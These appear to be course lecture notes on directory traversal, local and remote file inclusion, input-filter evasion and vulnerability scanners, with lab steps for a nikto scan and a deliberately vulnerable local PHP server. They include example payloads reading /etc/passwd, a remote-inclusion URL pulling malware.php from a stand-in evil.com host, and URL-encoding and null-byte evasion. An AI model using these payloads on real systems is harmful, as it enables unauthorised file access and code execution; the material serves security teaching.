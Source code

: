 # Week 2: File Inclusion and Vulnerability Scanning

## Lecture Notes: LFI and RFI

### Web Application Review

* web applications are often built on default file system setups (ex. /var/www/html) with default files (ex. index.html)

### Directory Traversal

* web applications don't always properly validate user input
* attacker can read files without authorization
* most common method is ../ or ..\\

### Directory Traversal vs. File Inclusion

* directory traversal can lead to file inclusion
* execution is the main difference

### LFI and RFI

* Local File Inclusion
  * attackers use local files to exploit areas of the application vulnerable to file inclusion
  * ex. website.com/view.php?file=file.txt | website.com/view.php?file=../../etc/passwd
* Remote File Inclusion
  * attackers use remote files to exploit areas of the application vulnerable to file inclusion
  * ex. website.com/view.php?file=file.txt | website.com/view.php?file=http://evil.com/malware.php

### Evading Input Sanitization

* URL encode parameters
  * ../ -> %2e%2e%2f
* null byte
  * ../../etc/passwd%00.txt

## Lecture Notes: Vulnerability Scanning

* a technique used to identify hosts/host attributes and associated vulnerabilities
* pros:
  * fast
    * less expensive than a pentest
    * used by pentesters during a time-boxed engagement
  * can usually be automated
* cons:
  * not as thorough
  * false positives
  * ratings can be subject to change
    * environment
    * configuration
    * data
  * not stealthy by default
* why use?
  * compliance
  * easy
  * fast

### Types of Scanners

* network
* web application

### Examples of Scanners

* traditional
  * OpenVAS
  * Nessus
  * Rapid7
* web application
  * Nikto
  * Burp suite
  * ZAP

## Activity: Scanning with Nikto

```
nikto -host 10.0.5.24
```

## Activity: File Inclusion Vulnerabilities

```
mkdir file-inclusion
cd file-inclusion
nano index.php
nano page1.html
nano page2.html
nano page3.html
php -S 127.0.0.1:9000
# navigate to 127.0.0.1:9000 in web browser
nano rfi.html
python3 -m http.server 8000
cp /etc/php/8.1/cli/php.ini .
nano php.ini
# change allow_url_include to On
php -S 127.0.0.1:9000 -c php.ini
```
